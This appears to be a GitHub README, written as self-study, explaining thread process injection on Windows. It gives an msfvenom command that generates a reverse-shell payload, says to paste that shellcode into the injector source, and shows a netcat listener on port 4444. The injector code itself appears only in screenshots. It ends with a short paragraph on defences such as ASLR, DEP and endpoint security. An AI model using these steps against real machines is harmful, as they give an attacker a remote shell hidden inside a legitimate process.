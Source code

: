 # SimpleTPI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


Writing these materials for myself and for educational purposes. I will write long explanations about every line of code for better understanding.

So, what is thread process injection?

TPI is a technique that allows an attacker to inject code into a running process and create a new thread that will execute the injected code. The goal of the attacker with this technique is to take control of the process. This is often used to evade detection, as the injected code runs within the context of a legitimate process and "hides" in the stack, making it difficult for security software to detect.

I will run the script by creating a VM in my case, is Kali Linux.

In the console, we type the command below:

```
ifconfig
```
Then take the VM IP we want to use as a "hacker" machine:

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
    options=3<RXCSUM,TXCSUM>
    ether xx:xx:xx:xx:xx:xx 
    inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```
I choose to use this exploit for the reverse shell, of course, you can choose any:

```
msfvenom -p windows/x64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
Then we have the shell code, and we will insert it in the line of code - shellcode[] = {`here`}


Once we have the script as shown in the screenshot above, we will change the file mode for the .exe using the command 
```
cl /Tc <filename>.cpp
```
 Then, we will switch back to the VM and listen to the specified port using the command
```
 nc -nlvp 4444
```
 We will then execute the program on our "hacker station" and we should have access.
 
<img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214379873-a32fb0de-24e1-4a36-a9fe-b880ea83f9e0.png">

To verify that the process has been injected, we can use the HackerProcess tool and find the notepad.exe process Properties -> Memory -> Protection column RWX (Read, Write, Execute) and can find in the memory region the reverse shell code.

![Screenshot 2023-01-25 at 10 50 03](https://user-images.githubusercontent.com/122444563/214526424-fedc65e8-3ddd-40f6-b285-5f9486dae2e6.png)

To defend against process injection in a company, it is important to keep in mind that no single solution can completely protect against thread process injection, and it is necessary to use a combination of techniques to maximize the security of your system. Using memory protection techniques like ASLR and DEP can make it more difficult for an attacker to inject code into a running process by making it harder to predict the location of memory blocks. Additionally, endpoint security solutions can be configured to block some types of process injection based on common sequences of behavior that occur during the injection process.
_____________________
